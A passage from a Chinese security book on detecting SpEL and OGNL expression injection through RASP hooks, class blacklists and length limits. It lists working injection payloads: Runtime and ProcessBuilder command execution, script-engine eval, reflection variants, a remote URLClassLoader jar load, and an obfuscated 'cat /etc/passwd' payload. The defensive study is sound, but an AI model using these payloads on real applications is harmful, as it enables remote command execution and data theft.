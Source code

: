 ## 10.4 Hook点与检测算法

一般的，我们只需要获取原始表达式，然后对原始的表达式做关键字符串匹配即可，如果存在指定的特征如命令执行的相关的类，可以简单判定该表达式是否为攻击。
这种检测算法很容易被特殊字符或者特殊语法绕过，如下例子：

```java
// 常规的写法：调用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 短名称写法： java.lang包下的类可以省去包名称，只保留类名称       
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
```
如果检测算法设定的黑名单为字符串`java.lang.Runtime`，而短名称的写法可以实现对黑名单的绕过。

仔细分析OGNL的代码，存在如下代码对执行类的校验：

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_23-04-07.jpg)

在1处，获取了被反射执行方法的类，如果方法的类来源于特定类的，如`java.lang.Runtime`、`java.lang.ClassLoader` 和 `java.lang.ProcessBuilder`等，将会抛出异常阻断表达式的执行。

这给我们RASP的Hook点的选择一个很好的提示，Hook类的选择应该关注表达式实际加载的类和执行的方法，而不仅仅是表达式本身。
下面将介绍SpEL和OGNL的Hook点的选择。

### 10.4.1 Hook点的选择

+ SPEL表达式Hook点选择

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面对源码的分析，Hook该方法能够获取需要执行的原始表达式的值。
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-24_22-42-34.jpg)

从源码分析可以知道SPEL表达式的方法的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，Hook该方法能够获取需要加载的类。

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-27-26.jpg)

第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下，Hook该方法能够获取被反射的类和方法。

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-31-24.jpg)

+ OGNL表达式Hook点选择

选择Hook `ognl.Ognl`类的parseExpression方法来获取原始表达式的值，该方法的源码如下：
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-45-38.jpg)


从源码分析可以知道`ognl.OgnlRuntime`类的invokeMethod负责方法调用，其源码如下：
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-49-19.jpg)


而`ognl.OgnlRuntime`类的callConstructor方法则负责调用构造器方法，其源码如下：

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_22-50-28.jpg)


### 10.4.2 表达式注入与检测算法

由于OGNL与SpEL表达式除了Hook点不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 具备攻击能力的SpEL表达式举例

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

通过检测表达式执行过程中加载的类和反射调用的方法，比较容易的识别表达式执行是否存在攻击。
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// ...
```


### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SpEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
